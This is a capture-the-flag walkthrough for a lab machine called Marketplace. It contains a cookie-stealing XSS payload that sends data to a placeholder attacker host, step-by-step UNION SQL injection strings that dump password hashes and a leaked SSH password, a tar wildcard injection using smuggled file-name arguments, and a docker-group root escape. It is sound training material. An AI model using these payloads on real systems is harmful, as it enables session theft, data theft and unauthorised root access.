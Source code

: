 
# ***Marketplace***

## *Flag*

We'll start with nmap scan:

```bash
$ sudo nmap 10.10.164.27 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55 --script-args http.useragent="Mozilla/5.0 (Windows NT 6.1; WOW64; rv:39.0) Gecko/20100101 Firefox/75.0"
```

Services:

- 22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
- 32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)


On the website we can find 2 items with options "contact user" and "report". Try hitting
"report" - you'll see that after your request is accepted, admin "reviews" the item and
sends you a feedback.

After firing up ZAP prozy and crawling around a website, we can discover that there's 
an XSS vulnerability in items' name. Let's combine it with the fact that admin checks
reported items and still their authentiaction token. Luckily for us, the auth cookie
doesn't have an adequate SameSite attribute. Create an item with the following name:

```html
<iframe src="javaScript:fetch('http://YOUR_IP:YOUR_PORT/?cookie='+btoa(document.cookie))" />
```

And then report this item. You'll receive admin's base64 encoded cookie. Replace your 
cookie with the admin's and reload the page.

---

## *User.txt*

After snooping around the admin panel, we can find that parameter user on page /admin
( /admin?user=2 ) is vulnerable to SQL injection. We'll manually exploit it.

***First*** step: Let's find out number of columns in this table:

- /admin?user=2 union select 1
- /admin?user=2 union select 1,2
- /admin?user=2 union select 1,2,3
- /admin?user=2 union select 1,2,3,4

We increase amount of columns until the error disappears.

***Second*** step: find out what is the underlying DBMS by invoking database-specific functions:

- /admin?user=2 union select user_name(),2,3,4 - MsSQL, didn't work
- /admin?user=2 union select user(),2,3,4- MySQL, worked. 

***Third*** step: list tables in current database:

- /admin?user=null union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema=database()

Got tables:

- items
- messages
- users

***Fourth*** step: get column names:

- /admin?user=null union select 1, group_concat(column_name),3,4 from information_schema.columns where table_name="users"
    - id
    - username
    - password
    - isAdministrator 
- /admin?user=null union select 1, group_concat(column_name),3,4 from information_schema.columns where table_name="messages"
    - id
    - user_from
    - user_to
    - message_content
    - is_read 
- /admin?user=null union select 1, group_concat(column_name),3,4 from information_schema.columns where table_name="items"
    - id
    - author
    - title
    - description
    - image

***Fifth*** step: Dump database.
- Users: /admin?user=null union select (SELECT group_concat (concat_ws(':', id, username, password, isAdministrator) SEPARATOR '@') FROM users), 2,3,4

Split the result by ':' and form a table:

| id | username | admin | password                            |
|----|----------|-------|-------------------------------------|
| 1  | system   |  0    | $2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW |
| 2  | michael  |  1    | $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q |
| 3  | jake     |  1    | $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG |
| 4  | test     |  0    | $2b$10$n9LcBu.VBqcbyC/n9YS5n.haF8rZ6Gb7cNkg4pzImKiWW2EM/HRC6 |

- Messages: /admin?user=null union select (SELECT group_concat (concat_ws(':', id, user_from, user_to, message_content) SEPARATOR '@') FROM messages), 2,3,4

| id | from | to | message_content                            |
|----|------|----|-------------------------------------|
| 1  | 1    | 3  | Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ |

Awesome, let's login as jake via SSH and get user's flag!

---

## *Root.txt*

Let's see what can we do with `sudo`:

```
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

backup sccript:

```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

/opt/backups is writable for any user, so we can exploit tar wildcard injection.
We will navigate to /opt/backups and create files whose names are valid tar argumnets
and they will force tar to execute arbitrary code on behalf of michael:

```bash
$ cd /opt/backups

$ echo '#/!bin/bash' > shell.sh

$ echo 'cp /bin/bash /tmp/michaelbash && chmod +s /tmp/michaelbash' >> shell.sh

$ echo "" > "--checkpoint-action=exec=sh shell.sh"

$ echo "" > --checkpoint=1

$ cd /tmp

$ ./michaelbash -p
```

And that's it, you have access to michel's account. Now I suggest you create an SSH 
backdoor and login as michael.

`id` tells us, that michael's in "docker" group. It means, that michael can fetch
a docker image of an OS, mount host OS in docker container, enter it as roor
and from there modify host OS with root privileges.

List images:

```bash
$ docker images
```

There's an "alpine" image, let's exploit it:

```bash
$ docker run -v /root:/mnt -it alpine
```

In the new shell:

```bash
$ cd /mnt
```

And there's host OS root directory!
